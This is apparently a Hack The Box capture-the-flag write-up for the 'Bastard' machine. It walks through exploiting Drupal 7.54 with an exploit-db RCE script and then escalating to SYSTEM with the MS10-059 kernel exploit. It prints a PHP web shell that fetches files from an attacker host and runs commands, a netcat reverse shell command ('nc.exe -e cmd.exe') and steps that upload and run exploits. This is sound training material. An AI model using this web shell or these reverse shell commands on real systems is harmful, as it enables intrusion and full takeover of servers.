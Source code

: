 # Bastard [htb](https://app.hackthebox.com/machines/Bastard)
![bastard-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/bastard-01.png)



## Recon


Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/hosts-02.png)


Now we can scan the target with: 

`nmap -sC -sV -A -p- bastard.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nmap-res-03.png)


We have the following:

+ An IIS v7.5 server on port 80.
  Seems like the robots.txt has some interesting directories. 

+ RPC on ports 135, 49154. 


Lets check the website. 


### HTTP 80

If we open our browsers and navigate towards `http://bastard.htb/`: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/site-04.png)

We see a login page, Iv'e tried SQLi, didnt really work for me. Creating an account doenst work, and the password reset feature doesnt work as well.  

If we take a look at the `robots.txt` file nmap found:

![robots-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/robots-05.png)


This `CHANGELOG.txt` file must be containing version numbers. 

![changelog-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/changelog-06.png)


We can see the backend is `Drupal 7.54`. If we use look up vulnerabilities:

`searchsploit drupal 7`

![searchsploit-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/searchsploit-06.png)


There's no shortage, Lets try the highlighted rce exploit. Copy it over with:

`cp /usr/share/exploitdb/exploits/php/webapps/41564.php rce.php`

Once you have the file in your current directory, open it:

![php-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/php-08.png)

Looks like the script is searching for an endpoint in `rest_endpoint`. Lets see if we have this directory:

`http://bastard.htb/rest_endpoint`
 
![endpoint-fail-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-fail-09.png)

We dont, but if we go to `http://bastard.htb/rest`: 

![endpoint-success-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-success-10.png)

Now we found the rest endpoint location, which means we can probably wxploit this. We just need to update the directory name in the exploit:

![update-exploit-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/update-exploit-11.png)

I updated the endpoint path, filename, and the URL of our target. I also added some php code so we can
upload files and execute commands.

```php
<?php
        if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.20/" . $_REQUEST['fupload']));

        };

        if (isset($_REQUEST['fexec'])) {
                echo "<pre>".shell_exec($_REQUEST['fexec'])."</pre>";

        };

?>
```
 

To run this, you might need to install curl-php with `apt install php-curl`. 

Then we can run the exploit with: 

`php rcp.php`

![execute-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/execute-12.png)


Now that the file has been uploaded, we can execute commands via the URL:

`http://bastard.htb/shell.php?fexec=dir`

![rce-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/rce-13.png)


Lets see if we can upload `nc.exe` to the target and get a reverse shell. 

Copy `nc.exe` to your working directory: 

`cp /usr/share/windows-resources/binaries/nc.exe .`


Start a python web server:

`python3 -m http.server 80`

Use the file upload feature to put in on the target: 

`http://bastard.htb/shell.php?fupload=nc.exe`


![nc-transfer-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nc-transfer-14.png)


Looks like the file has been saved on the target. 

Lets start the local listener: 

`nc -lnvp 9001` 


Now we want to execute `nc.exe` with: 

`nc.exe -e cmd.exe 10.10.14.20 9001`

I use Burp to URL-encode this. 

If we send the payload in the URL:

`http://bastard.htb/shell.php?fexec=<payload>`


We get a shell: 

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/shell-15.png)

Lets try to get system! 

## Privilege Escalation

If we run `systeminfo`:

![sysinfo-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/sysinfo-16.png)

We can see we are up againts a 2008 Windows server. If we take this output, save it to a file on our
Kali machine, and run [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it, we can see the following:

![exploit-suggester-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/exploit-suggester-17.png)

MS10-059 is a well known kernel exploit for Windows as it works more often then not, so its worth a shot. 

You can find the exploit [here](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe), download it to your Kali machine. 

Next, start a python web server with: 

`python3 -m http.server 80`

and use the file upload feature we created before to upload the file to the target: 

`http://bastard.htb/shell.php?fupload=Chimichurri.exe`

![dir-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/dir-18.png)

Setup the netcat listener with:

`nc -lnvp 9002`


Finally, execeute the exploit with:

`Chimichurri.exe 10.10.14.31 9002`

Where the IP is your Kali machine, and `9002` the port your listening on. 


Execute, and this should yield you a shell as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/root-19.png)

